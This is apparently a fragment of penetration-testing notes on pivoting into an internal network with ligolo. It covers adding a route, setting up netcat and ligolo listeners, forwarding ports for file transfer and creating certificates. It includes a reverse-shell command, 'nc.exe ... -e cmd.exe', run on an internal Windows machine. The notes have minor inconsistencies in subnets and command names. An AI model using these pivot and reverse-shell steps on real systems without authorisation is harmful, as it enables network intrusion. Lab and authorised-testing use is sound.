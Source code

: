 Add a rule to your iptables, another terminal windows:

```bash
sudo ip route add 172.16.147.0/24 dev ligolo # interface 1
ip route list # confirm
nc -lvnp 4444
```

Back on the ligolo terminal:

```bash
start
```

In order to receive reverse shells from machines on the internal network:

```bash
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
listener-list # confirm
ifconfig # get the INTERNAL ip address, which will be used to communicate to your personal kali machine on the external network
```

On your internal Windows machine:

```bash
nc.exe 172.16.157.14 1234 -e cmd.exe
```

In order to transfer files from your machine to the internal server:

In the ligolo terminal:

```bash
# Add another listener that directs to your server
listener-add --addr 0.0.0.0:1235 --to 127.0.0.1:8000
```

You may need to create certificates:

```bash
mkdir -p ~/Downloads/certs
cd ~/Downloads/certs
openssl req -newkey rsa:2048 -new -nodes -x509 -days 3650 -keyout key.pem -out cert.pem
```